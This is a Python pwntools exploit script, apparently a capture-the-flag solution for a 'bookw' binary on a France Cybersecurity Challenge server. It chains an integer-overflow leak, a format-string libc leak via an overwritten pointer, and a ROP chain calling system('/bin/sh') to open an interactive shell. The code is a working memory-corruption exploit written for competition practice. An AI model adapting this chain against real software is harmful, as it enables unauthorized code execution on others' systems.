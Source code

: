 from pwn import *

elf = ELF("./bookw", checksec=False)
libc = elf.libc
global p

def create(name, pages):
    p.sendlineafter(b"Quitter\n", b"1")
    p.sendlineafter(b"?\n", name)
    p.sendlineafter(b"?\n", pages)
    p.recvuntil(b"\"")
    name  = p.recvuntil(b"\"", drop= True)
    p.recvuntil(b"page ")
    pages = p.recvline().strip()
    return [name, pages]

def open(idx):
    p.sendlineafter(b"Quitter\n", b"2")
    p.clean()
    p.sendline(idx)

def write(content):
    p.sendlineafter(b"Quitter\n", b"3")
    p.sendlineafter(b"?", content)

def read():
    p.sendlineafter(b"Quitter\n", b"4")
    p.recvuntil(b"\"")
    return p.recvuntil(b"\"", drop=True)

def inc():
    p.sendlineafter(b"Quitter\n", b"5")



#p = process(elf.path)
p = remote('challenges.france-cybersecurity-challenge.fr', 2112)

create(b"salutatous ", str(1152921504606846977).encode())

create(b"B"*63, str(1).encode())





open(b"0")

inc()

leak = read()
elf_leak = leak[16:][:8]
elf.address = u64(elf_leak) - elf.sym['read_page']
heap = u64(leak[96:][:8].ljust(8, b"\0"))

info("pie @0x%hx" % elf.address)
info("heap @0x%hx" % heap)




open(b"0")
inc()

write(b"A"*16+b"AAA%41$p"+p64(elf.plt.printf)) 


open(b"1")

write(p64(0xdeadbeefdeadbeef)*8)


p.recvuntil(b"AAA")
libc.address = int(p.recvuntil(b"\x80", drop=True),0) - 160517
info("libc @0x%hx" % libc.address)


# verify libc

open(b"0")
inc()
write(b"A"*16+p64(0xdeadbeefdeadbeef)+p64(libc.address +0x000000000003f1e9 )) #0x000000000003f1e9 : add rsp, 0x28 ; ret
open(b"1")


ret     = 0x0000000000027182+libc.address
pop_rdi = 0x00000000000277e5 + libc.address

payload = b""
payload += p64(pop_rdi)
payload += p64(next(libc.search(b"/bin/sh\0")))
payload += p64(libc.sym.system)
write(payload)




p.interactive()
